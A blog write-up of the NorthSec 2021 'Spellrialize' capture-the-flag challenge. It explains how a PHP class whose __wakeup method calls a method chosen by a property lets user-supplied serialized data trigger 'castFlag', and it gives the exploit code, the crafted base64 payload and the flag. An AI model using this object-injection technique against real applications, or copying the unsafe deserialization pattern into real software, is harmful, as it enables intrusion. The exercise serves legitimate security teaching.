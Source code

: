 ```yaml
---
layout: post
title: NorthSec 2021 Writeup - Wizard Hackademy - Spellrialize
date: 2021-05-24
type: post
tags:
- Writeup
- Hacking
- Northsec
- CTF
permalink: /2021/05/NorthSec2021WriteupSpellrialize/
---
```


This is another challenge of the beginer's track at the [Northsec CTF of 2021](https://nsec.io/competition/). The challenge show a simple 'Hello World!' web site, with a link to download the source code.

![Challenge Site](/assets/images/2021/05/NorthSec/WizardHackademy/Spellrialize/site.png)

I download the code and looked at it. I don't have the original code anymore, but it uses the following class.

```php
<?php
class Hckademy{
    private $call = "WelcomeMessage";

    public function __construct() {

    }

    public function __wakeup(){
        $this->{$this->call}();
    }

    public function WelcomeMessage(){
        echo "Hello World!";
    }

    public function castFlag(){
        echo "FLAG-xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";
    }
}
```

The code would serialize the class, base64 encode it and then add the resulting string to the URL. 

```
http://chal6.wizard-hackademy.ctf/?s=Tzo4OiJIY2thZGVteSI6MTp7czoxNDoiAEhja2FkZW15AGNhbGwiO3M6MTQ6IldlbGNvbWVNZXNzYWdlIjt9
```

If the `s` parameter was present in the query, it will base64 decode it and deserialize it. This is the interesting part. When a PHP class is deserialized, the [__wakeup method](https://www.php.net/manual/en/language.oop5.magic.php#object.wakeup) is called. 

In the provided class, the method calls the method identified in the `$call` properties. We cannot modified the `__wakeup` method. But we can control the value of a properties. 

So I took the class and modified the `$call` property to contain `castFlag` instead of `WelcomeMessage`. This way on deserialization, the `castFlag` method will be called and it will print the flag. 

```php
<?php
class Hckademy{
    //private $call = "WelcomeMessage";
    private $call = "castFlag";

    public function __construct() {

    }

    public function __wakeup(){
        $this->{$this->call}();
    }

    public function WelcomeMessage(){
        echo "Hello World!";
    }

    public function castFlag(){
        echo "FLAG-xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";
    }
}

$a = new Hckademy();
echo(base64_encode(serialize($a)));
```

I executed the code, it gave me this output:

```
Tzo4OiJIY2thZGVteSI6MTp7czoxNDoiAEhja2FkZW15AGNhbGwiO3M6ODoiY2FzdEZsYWciO30=
```

I used it in the URL as the s parameter and the flag was displayed on the page.

![Site With Flag](/assets/images/2021/05/NorthSec/WizardHackademy/Spellrialize/withFlag.png "Site With Flag")

Flag: FLAG-2ec92b2494b7c6c7e84da26cfb7d641a